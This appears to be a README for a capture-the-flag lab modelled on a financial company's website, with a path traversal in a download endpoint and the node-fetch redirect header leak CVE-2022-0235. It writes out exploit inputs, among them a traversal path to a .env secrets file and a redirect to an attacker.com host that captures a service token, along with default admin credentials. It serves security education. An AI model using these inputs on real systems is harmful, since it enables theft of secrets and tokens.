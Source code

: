 # FinCorp Financial Reports CTF Challenge

This is a Capture The Flag (CTF) challenge involving a financial company's website with two distinct vulnerabilities.

## Challenge Overview

The challenge consists of two stages:

### Stage 1: Path Traversal Vulnerability
- **Target**: Extract JWT secret from `.env` file
- **Method**: File path traversal in the download endpoint
- **Goal**: Gain admin access by forging JWT tokens

### Stage 2: Node-fetch Redirect Header Leak (CVE-2022-0235)
- **Target**: Steal service token via redirect vulnerability
- **Method**: Exploit vulnerable node-fetch version that forwards Authorization headers on redirects
- **Goal**: Access the internal API flag endpoint

## Architecture

- **Web Container** (Port 8080): Public-facing website with admin dashboard
- **API Container** (Port 3001): Internal API service with flag endpoint
- **Network**: Both containers communicate via Docker network

## Setup Instructions

1. **Clone and navigate to the challenge directory:**
   ```bash
   cd /Users/alexsch/Reports_CTF
   ```

2. **Build and start the containers:**
   ```bash
   docker-compose up --build
   ```

3. **Access the application:**
   - Website: http://localhost:8080
   - Admin Dashboard: http://localhost:8080/admin (requires admin JWT)
   - API Health: http://localhost:3001/api/health

## Challenge Files

- `public/` - Static HTML files for the website
- `web/` - Web application (Node.js/Express)
- `api/` - Internal API service
- `env/` - Environment files with secrets
- `docker-compose.yml` - Container orchestration

## Vulnerabilities

### 1. Path Traversal (`/download` endpoint)
- **File**: `web/app.js` line ~45
- **Issue**: No path validation allows `../../` traversal
- **Exploit**: `/download?path=../../.env`

### 2. Node-fetch Redirect Header Leak
- **File**: `web/app.js` line ~95
- **Issue**: node-fetch 2.6.6 forwards Authorization headers on redirects
- **Exploit**: Use admin API client to call `/api/redirect?to=http://attacker.com`

## Flags

- **FLAG1**: Confirmation of admin access (in admin dashboard)
- **FLAG2**: Retrieved from `/api/flag` endpoint with stolen service token

## Testing the Challenge

1. **Test path traversal:**
   ```bash
   curl "http://localhost:8080/download?path=../../.env"
   ```

2. **Test admin login:**
   ```bash
   curl -X POST http://localhost:8080/admin/login \
     -H "Content-Type: application/json" \
     -d '{"username":"admin","password":"admin123"}'
   ```

3. **Test API redirect:**
   ```bash
   curl "http://localhost:3001/api/redirect?to=https://httpbin.org/get"
   ```

## Security Notes

This challenge is designed for educational purposes and demonstrates real-world vulnerabilities:
- CVE-2022-0235: node-fetch redirect header leak
- Path traversal vulnerabilities in file download endpoints
- JWT secret exposure in environment files

## Cleanup

To stop and remove containers:
```bash
docker-compose down
docker-compose down --volumes  # Remove volumes if needed
```
